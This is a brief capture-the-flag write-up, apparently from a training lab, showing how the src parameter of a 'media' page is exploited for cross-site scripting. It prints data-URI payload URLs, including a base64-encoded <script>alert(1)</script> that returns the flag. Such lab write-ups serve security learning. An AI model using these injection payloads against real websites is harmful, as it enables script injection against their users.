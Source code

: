 # XSS media

in this page http://10.11.43.99/?page=media&src=nsa

We got another xss

first paylaod

> http://adressip/?page=media&src=data:text/plain,HELLO

Its working now lets try with html

> http://adressip/?page=media&src=data:text/html,<script>alert(1)</script>

Its working but it doesnt give us the flag, lets try to decode it

> http://adressip/?page=media&src=data:text/html;base64,ICA8c2NyaXB0PiBhbGVydCgxKTwvc2NyaXB0PiAg

> ICA8c2NyaXB0PiBhbGVydCgxKTwvc2NyaXB0PiAg is <script>alert(1)</script> with spaces to get rid of the == or + at the end of the decoded version in base64

and we get the flag

[source](https://developer.mozilla.org/fr/docs/web/http/basics_of_http/data_urls)
